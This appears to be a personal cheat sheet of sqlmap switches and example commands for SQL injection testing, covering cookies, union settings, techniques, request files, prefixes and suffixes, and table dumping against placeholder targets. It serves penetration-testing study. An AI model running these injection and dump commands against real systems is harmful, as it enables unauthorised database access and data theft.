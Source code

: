 

### Switches
Applying cookies parameter
```shell-session
--cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
Specify method
```shell-session
--method PUT
```
Parse errors
```
--parse-errors
```
Verbose output
```shell-session
-v 6
```
Send data through proxy
```
--proxy
```
Specify response code
```
--code=200
```
Look for string
```
--string=success
```
Specify union column count
```
--union-cols=17
```
Specify table to union from
```
--union-from=users
```
Specify technique to use
```
--technique=BEU
```
Specify table to dump
```
-T TABLE_NAME --dump
```
### Command Cases

Storing traffic to file
```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

Marking parameters
```shell-session
sqlmap 'http://www.example.com/' -p uid
```
```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```


Using request files(burp suite intercept request)
```shell-session
sqlmap -r req.txt
```

Specifying prefix and suffix
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Specify level and risk
```shell-session
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

